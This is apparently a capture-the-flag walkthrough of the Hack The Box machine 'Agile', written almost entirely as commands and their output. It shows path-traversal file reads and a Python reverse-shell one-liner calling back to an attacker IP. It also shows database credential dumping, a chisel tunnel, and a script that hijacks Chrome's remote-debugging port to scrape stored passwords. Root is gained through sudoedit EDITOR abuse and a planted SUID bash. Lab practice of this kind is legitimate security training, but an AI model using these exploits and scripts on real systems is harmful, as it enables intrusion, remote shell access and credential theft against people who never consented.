

# Agile

──╼ [★]$ sudo nmap -sCV 10.129.228.212
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-06-23 05:14 EDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 05:15 (0:00:06 remaining)
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.65% done; ETC: 05:15 (0:00:00 remaining)
Nmap scan report for 10.129.228.212
Host is up (0.014s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 f4:bc:ee:21:d7:1f:1a:a2:65:72:21:2d:5b:a6:f7:00 (ECDSA)
|_  256 65:c1:48:0d:88:cb:b9:75:a0:2c:a5:e6:37:7e:51:06 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to [http://superpass.htb](http://superpass.htb/)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

10.129.228.212 superpass.htb



admin:admin


created acct


[http://superpass.htb/download?fn=../../../../etc/passwd](http://superpass.htb/download?fn=../../../../etc/passwd)

found lfi at /download endpoint and got /etc/passwd file 

cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
corum:x:1000:1000:corum:/home/corum:/bin/bash
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/bin/false

n=../../../../proc/net/dev

console PIN: 560-497-795

`import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.206",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")`

nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.228.212 34550
(venv) www-data@agile:/app/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
(venv) www-data@agile:/app/app$ stty raw -echo
stty raw -echo
(venv) www-data@agile:/app/app$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(venv) www-data@agile:/app/app$ hostname
agile

(venv) www-data@agile:/app/app$ mysql -u superpassuser -p'dSA6l7q*yIVs$39Ml6ywvgK'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 179
Server version: 8.0.32-0ubuntu0.22.04.2 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| superpass          |
+--------------------+
3 rows in set (0.01 sec)

mysql> use superpass;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_superpass |
+---------------------+
| passwords           |
| users               |
+---------------------+
2 rows in set (0.01 sec)

mysql> select * from users;
+----+----------+--------------------------------------------------------------------------------------------------------------------------+
| id | username | hashed_password                                                                                                          |
+----+----------+--------------------------------------------------------------------------------------------------------------------------+
|  1 | 0xdf     | $6$rounds=200000$FRtvqJFfrU7DSyT7$8eGzz8Yk7vTVKudEiFBCL1T7O4bXl0.yJlzN0jp.q0choSIBfMqvxVIjdjzStZUYg6mSRB2Vep0qELyyr0fqF. |
|  2 | corum    | $6$rounds=200000$yRvGjY1MIzQelmMX$9273p66QtJQb9afrbAzugxVFaBhb9lyhp62cirpxJEOfmIlCy/LILzFxsyWj/mZwubzWylr3iaQ13e4zmfFfB1 |
|  9 | admin    | $6$rounds=200000$NKFB9UjxpwVgWow6$klK2LKatPRlRDEje4ZUQYzZ5eW46YcSUvFFVWstmm.VVhMLGmgVPWqhCB7GKsCEQDL5f3JYDDqo3z.lZl5dHt. |
+----+----------+--------------------------------------------------------------------------------------------------------------------------+
3 rows in set (0.00 sec)

mysql> select * from passwords;
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
| id | created_date        | last_updated_data   | url            | username | password             | user_id |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
|  3 | 2022-12-02 21:21:32 | 2022-12-02 21:21:32 | [hackthebox.com](http://hackthebox.com/) | 0xdf     | 762b430d32eea2f12970 |       1 |
|  4 | 2022-12-02 21:22:55 | 2022-12-02 21:22:55 | [mgoblog.com](http://mgoblog.com/)    | 0xdf     | 5b133f7a6a1c180646cb |       1 |
|  6 | 2022-12-02 21:24:44 | 2022-12-02 21:24:44 | mgoblog        | corum    | 47ed1e73c955de230a1d |       2 |
|  7 | 2022-12-02 21:25:15 | 2022-12-02 21:25:15 | ticketmaster   | corum    | 9799588839ed0f98c211 |       2 |
|  8 | 2022-12-02 21:25:27 | 2022-12-02 21:25:27 | agile          | corum    | 5db7caa1d13cc37c9fc2 |       2 |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
5 rows in set (0.00 sec)

ssh corum@superpass.htb

corum:5db7caa1d13cc37c9fc2

corum@agile:~$ls
user.txt
corum@agile:~$ cat user.txt
6b5630d26dfa95ebd4ba89cdedd7d5ab
corum@agile:~$hostname
agile
corum@agile:~$ id
uid=1000(corum) gid=1000(corum) groups=1000(corum)
corum@agile:~$

server {
listen 80;
server_name agile.htb;
root /var/www/html;
index index.html index.htm index.nginx-debian.html;
location / {
try_files $uri $uri/ =404;
}
}

server {
listen 127.0.0.1:80;
server_name test.superpass.htb;
location /static {
alias /app/app-testing/superpass/static;
expires 365d;
}
location / {
include uwsgi_params;
proxy_pass [http://127.0.0.1:5555](http://127.0.0.1:5555/);
proxy_set_header Host $host;
proxy_set_header X-Real-IP $remote_addr;
proxy_set_header X-Forwarded-Protocol $scheme;
}
}

ps aux

runner     72800  0.4  3.9 1184772612 158832 ?   Sl   17:50   0:01 /opt/google/chrome/chrome --type=renderer --headless --crashpad-handler-pid=72744 --lang=en-US --enable-automation --enable-logging --log-level=0 --remote-debugging-port=41829

chisel server --reverse -p 8080

./chisel client 10.10.15.206:8080 R:41829:127.0.0.1:41829

cat [script.py](http://script.py/)
#!/usr/bin/env python3
"""Attach to a Chrome remote-debugging (CDP) session over a chisel/SSH tunnel
and scrape stored credentials from the logged-in SuperPass page.

Usage:
pip install websocket-client requests
python3 [script.py](http://script.py/)            # uses BASE below
"""
import json, time, requests, websocket   # pip install websocket-client requests

BASE = "[http://127.0.0.1:41829](http://127.0.0.1:41829/)"          # local end of your tunnel

tab = next(t for t in requests.get(f"{BASE}/json").json() if t["type"] == "page")
print(f"[+] attaching to: {tab['title']}  ->  {tab['url']}")
ws = websocket.create_connection(tab["webSocketDebuggerUrl"], max_size=None)

_id = 0
def cmd(method, **params):
global _id; _id += 1; mid = _id
ws.send(json.dumps({"id": mid, "method": method, "params": params}))
while True:
m = json.loads(ws.recv())
if m.get("id") == mid:
return m

def js(expr):
r = cmd("Runtime.evaluate", expression=expr, returnByValue=True)
return r["result"]["result"].get("value")

cmd("Runtime.enable")

1) pull every input value on the current page (incl. password fields)

print("=== inputs on current page ===")
print(js("JSON.stringify([...document.querySelectorAll('input')]"
".map(i=>({name:i.name||[i.id](http://i.id/), type:i.type, value:i.value})))"))

2) dump the visible text in case creds are rendered in a table

print("\n=== page text ===")
print(js("document.body.innerText"))

3) navigate to the vault and re-scrape — creds live here

cmd("Page.enable")
cmd("Page.navigate", url="[http://test.superpass.htb/vault](http://test.superpass.htb/vault)")
time.sleep(2)
print("\n=== inputs on vault page ===")
print(js("JSON.stringify([...document.querySelectorAll('input')]"
".map(i=>({name:i.name||[i.id](http://i.id/), type:i.type, value:i.value})))"))
print("\n=== vault page text ===")
print(js("document.body.innerText"))

ws.close()

python [script.py](http://script.py/)
[+] attaching to: 500 Internal Server Error  ->  [http://test.superpass.htb/vault](http://test.superpass.htb/vault)
=== inputs on current page ===
[]

=== page text ===
Internal Server Error

The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.

=== inputs on vault page ===
[]

=== vault page text ===
🦸SuperPassword
Home
Vault
Export
Logout
Welcome to your vault
Site	Username	Password
agile	edwards	d07867c6267dcb5df0af
twitter	dedwards__	7dbfe676b6b564ce5718
Add a password  Export
Copyright © superpass.htb

ssh edwards@superpass.htb

edwards@agile:~$id
uid=1002(edwards) gid=1002(edwards) groups=1002(edwards)
edwards@agile:~$ whoami
edwards
edwards@agile:~$hostname
agile
edwards@agile:~$ ls
edwards@agile:~$ls -la
total 32
drwxr-x--- 5 edwards edwards 4096 Feb  8  2023 .
drwxr-xr-x 5 root    root    4096 Feb  8  2023 ..
lrwxrwxrwx 1 root    root       9 Feb  6  2023 .bash_history -> /dev/null
-rw-r--r-- 1 edwards edwards  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 edwards edwards 3771 Jan  6  2022 .bashrc
drwx------ 2 edwards edwards 4096 Feb  8  2023 .cache
drwxr-xr-x 3 edwards edwards 4096 Feb  8  2023 .config
drwx------ 3 edwards edwards 4096 Feb  8  2023 .local
-rw-r--r-- 1 edwards edwards  807 Jan  6  2022 .profile
edwards@agile:~$ sudo -l
[sudo] password for edwards:
Matching Defaults entries for edwards on agile:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty

User edwards may run the following commands on agile:
(dev_admin : dev_admin) sudoedit /app/config_test.json
(dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt

export EDITOR="vim -- /app/venv/bin/activate”

sudo -u dev_admin sudoedit /app/config_test.json
sudo: sudoedit doesn't need to be run via sudo
3 files to edit
sudo: -- unchanged
sudo: /app/config_test.json unchanged

edwards@agile:/app/venv/bin$ cat /app/venv/bin/activate

# This file must be used with "source bin/activate" *from bash*

# you cannot run it directly

deactivate () {
# reset old environment variables
if [ -n "${_OLD_VIRTUAL_PATH:-}" ] ; then
        PATH="${_OLD_VIRTUAL_PATH:-}"
export PATH
unset _OLD_VIRTUAL_PATH
fi
if [ -n "${_OLD_VIRTUAL_PYTHONHOME:-}" ] ; then
        PYTHONHOME="${_OLD_VIRTUAL_PYTHONHOME:-}"
export PYTHONHOME
unset _OLD_VIRTUAL_PYTHONHOME
fi

```
# This should detect bash and zsh, which have a hash command that must
# be called to get it to forget past commands.  Without forgetting
# past commands the $PATH changes we made may not be respected
if [ -n "${BASH:-}" -o -n "${ZSH_VERSION:-}" ] ; then
    hash -r 2> /dev/null
fi

if [ -n "${_OLD_VIRTUAL_PS1:-}" ] ; then
    PS1="${_OLD_VIRTUAL_PS1:-}"
    export PS1
    unset _OLD_VIRTUAL_PS1
fi

unset VIRTUAL_ENV
unset VIRTUAL_ENV_PROMPT
if [ ! "${1:-}" = "nondestructive" ] ; then
# Self destruct!
    unset -f deactivate
fi
```

}

# unset irrelevant variables

deactivate nondestructive

VIRTUAL_ENV="/app/venv"
export VIRTUAL_ENV

_OLD_VIRTUAL_PATH="$PATH"
PATH="$VIRTUAL_ENV/bin:$PATH"
export PATH

# unset PYTHONHOME if set

# this will fail if PYTHONHOME is set to the empty string (which is bad anyway)

# could use `if (set -u; : $PYTHONHOME) ;` in bash

if [ -n "${PYTHONHOME:-}" ] ; then
    _OLD_VIRTUAL_PYTHONHOME="${PYTHONHOME:-}"
unset PYTHONHOME
fi

if [ -z "${VIRTUAL_ENV_DISABLE_PROMPT:-}" ] ; then
    _OLD_VIRTUAL_PS1="${PS1:-}"
PS1="(venv) ${PS1:-}"
export PS1
VIRTUAL_ENV_PROMPT="(venv) "
export VIRTUAL_ENV_PROMPT
fi

# This should detect bash and zsh, which have a hash command that must

# be called to get it to forget past commands. Without forgetting

# past commands the $PATH changes we made may not be respected

if [ -n "${BASH:-}" -o -n "${ZSH_VERSION:-}" ] ; then
hash -r 2> /dev/null
fi
cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash

wait for cron job to run 

edwards@agile:/app/venv/bin$ /tmp/rootbash -p
edwards@agile:/app/venv/bin# id
uid=1002(edwards) gid=1002(edwards) euid=0(root) groups=1002(edwards)
edwards@agile:/app/venv/bin# whoami
root
edwards@agile:/app/venv/bin# cd /root
edwards@agile:/root# ls
app  [clean.sh](http://clean.sh/)  root.txt  superpass.sql	testdb.sql
edwards@agile:/root# cat root.txt
7dcdc142dc94fb8d1bc6e8829a8dc62e